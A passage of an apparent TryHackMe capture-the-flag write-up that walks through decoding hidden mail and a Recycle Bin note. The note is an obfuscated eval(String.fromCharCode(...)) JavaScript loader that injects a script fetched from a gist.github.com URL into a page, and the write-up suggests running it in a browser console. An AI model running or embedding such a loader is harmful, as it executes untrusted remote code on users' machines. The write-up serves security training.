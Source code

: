decode it using magic

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/12a5d11c-bdbb-4558-b656-99859d80b556)

do the same with ElfMail in tab Mail

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/db2275e2-e484-443b-9091-85186b8fc504)

decode it too

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/14365949-21f0-4f0b-8464-3ae8aff0c343)

from Recycle Bin, find a Elf Sysadmin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cbb99b50-65c1-4aa1-8e9e-a1d1e12bc222)

Look at the note for us

```
eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));
```

from Hint, we have the answer to decode or you can enter it to javascript console and we can get the same answer too
